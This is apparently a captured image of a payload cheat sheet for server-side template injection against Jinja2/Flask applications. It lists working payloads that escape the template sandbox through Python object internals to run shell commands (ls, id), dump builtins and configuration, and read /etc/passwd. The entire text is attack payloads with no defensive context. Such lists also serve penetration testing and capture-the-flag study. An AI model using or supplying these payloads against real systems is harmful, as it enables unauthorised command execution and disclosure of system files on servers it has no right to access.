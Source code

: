 # TESTING INJECTION CAPABILITIES
{{7*'7'}}

# ALL AVAILABLE CLASSES
{{ "".__class__.__mro__[1].__subclasses__() }}

# SEE PERMISIONS ON THE DIRECTORIES
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("ls -lah").read() }}

# SEE BUILTINS
{{ self.__init__.__globals__.__builtins__ }}

# READ ETC/PASSWD
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}

# READ ALL DIRECTORIES IN / PARTITION
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("ls /").read() }}

# INFO ON THE USER
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

# SEE CONFIG FILES OF THE DOCKER
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

